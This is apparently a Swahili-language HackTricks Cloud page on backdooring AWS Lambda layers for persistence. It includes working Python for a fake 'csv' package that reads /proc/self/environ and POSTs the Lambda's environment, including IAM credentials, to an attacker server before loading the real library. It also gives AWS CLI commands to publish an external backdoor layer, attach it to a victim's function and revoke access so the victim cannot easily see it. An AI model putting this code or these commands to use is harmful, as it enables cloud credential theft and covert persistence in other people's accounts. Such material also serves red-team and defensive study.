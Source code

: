 # AWS - Uthabiti wa Lambda Layers

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Lambda Layers

Tabaka la Lambda ni faili ya .zip ambayo **inaweza kuwa na msimbo wa ziada** au maudhui mengine. Tabaka inaweza kuwa na maktaba, [muda wa desturi](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, au faili za usanidi.

Inawezekana kuongeza hadi **tabaka tano kwa kila kazi**. Unapojumuisha tabaka katika kazi, **maudhui yanaondolewa kwenye saraka ya `/opt`** katika mazingira ya utekelezaji.

Kwa **chaguo-msingi**, **tabaka** unazounda ni **binafsi** kwa akaunti yako ya AWS. Unaweza **kuchagua kushiriki** tabaka na akaunti zingine au **kufanya** tabaka **kuwa ya umma**. Ikiwa kazi zako zinatumia tabaka ambayo akaunti tofauti imetoa, kazi zako zinaweza **kuendelea kutumia toleo la tabaka baada ya kufutwa, au baada ya ruhusa yako ya kupata tabaka kufutwa**. Walakini, huwezi kuunda kazi mpya au kusasisha kazi zinazotumia toleo lililofutwa la tabaka.

Kazi zilizosambazwa kama picha ya kontena hazitumii tabaka. Badala yake, unapakia muda wako unaopendelea, maktaba, na mahitaji mengine ndani ya picha ya kontena unapojenga picha.

### Njia ya kupakia Python

Njia ya kupakia ambayo Python itatumia kwenye lambda ni ifuatayo:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Angalia jinsi **nafasi ya pili** na ya tatu **inavyochukuliwa** na saraka ambapo **lambda layers** hufungua faili zao: **`/opt/python/lib/python3.9/site-packages`** na **`/opt/python`**

{% hint style="danger" %}
Ikiwa mshambuliaji amefanikiwa **kuweka mlango wa nyuma** kwenye **lambda layer** iliyotumiwa au **kuongeza moja** ambayo itatekeleza **mimba ya nambari inapopakia maktaba ya kawaida**, ataweza kutekeleza nambari yenye nia mbaya kila wakati lambda inaitwa.
{% endhint %}

Kwa hivyo, mahitaji ni:

* **Angalia maktaba** ambazo zime **pakuliwa** na nambari ya waathiriwa
* Unda **maktaba ya mbadala na lambda layers** ambayo itatekeleza nambari ya desturi na **pakia maktaba ya asili**.

### Maktaba zilizopakiwa mapema

{% hint style="warning" %}
Nikichunguza mbinu hii nilikutana na changamoto: Baadhi ya maktaba tayari zime **pakuliwa** katika muda wa python wakati nambari yako inatekelezwa. Nilitarajia kupata vitu kama `os` au `sys`, lakini **hata maktaba ya `json` ilipakuliwa**.\
Ili kutumia mbinu hii ya uthabiti, nambari inahitaji **kupakia maktaba mpya ambayo haijapakiwa** wakati nambari inatekelezwa.
{% endhint %}

Kwa nambari ya python kama hii, ni rahisi kupata **orodha ya maktaba zilizopakiwa mapema** ndani ya muda wa python kwenye lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Na hii ni **orodha** (angalia kwamba maktaba kama vile `os` au `json` tayari zipo)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Na hii ni orodha ya **maktaba** ambazo **lambda inajumuisha kwa msingi**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3]

### Lambda Layer Backdooring

Katika mfano huu tufikirie kuwa kanuni iliyolengwa inaingiza **`csv`**. Tutakuwa **tukirudisha nyuma uingizaji wa maktaba ya `csv`**.

Kufanya hivyo, tutakuwa **tunaunda saraka ya csv** na faili ya **`__init__.py`** ndani yake kwenye njia ambayo inapakiwa na lambda: **`/opt/python/lib/python3.9/site-packages`**\
Kisha, wakati lambda inatekelezwa na jaribu kupakia **csv**, faili yetu ya **`__init__.py` itapakiwa na kutekelezwa**.\
Faili hii lazima:

* Tekeleza mzigo wetu
* Pakia maktaba ya csv ya asili

Tunaweza kufanya yote haya na:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Kisha, tengeneza zip na nambari hii kwenye njia **`python/lib/python3.9/site-packages/__init__.py`** na uiweke kama safu ya lambda.

Unaweza kupata nambari hii kwenye [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Payload iliyoundwa itatuma IAM creds kwa seva **MARAKA YA KWANZA** inaitwa au **BAADA YA kurejesha kontena ya lambda** (mabadiliko ya nambari au lambda baridi), lakini **njia zingine** kama zifuatazo zinaweza pia kuingizwa:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Safu za Nje

Tafadhali elewa kwamba inawezekana kutumia **safu za lambda kutoka kwa akaunti za nje**. Zaidi ya hayo, lambda inaweza kutumia safu kutoka kwa akaunti ya nje hata kama haina idhini.\
Pia elewa kwamba **idadi kubwa ya safu ambayo lambda inaweza kuwa nayo ni 5**.

Hivyo, ili kuboresha uwezo wa mbinu hii, mshambuliaji anaweza:

* Weka mlango wa nyuma kwenye safu iliyopo ya mtumiaji (hakuna kitu cha nje)
* **Tengeneza** **safu** katika **akaunti yake**, toa **akaunti ya mwathiriwa upatikanaji** wa kutumia safu, **sanidi** **safu** kwenye Lambda ya mwathiriwa na **ondoa idhini**.
* **Lambda** itaendelea kuweza **kutumia safu** na mwathiriwa **hatakuwa na** njia rahisi ya **kupakua nambari za safu** (isipokuwa kupata rev shell ndani ya lambda)
* Mwathiriwa **hataona safu za nje** zinazotumiwa na **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
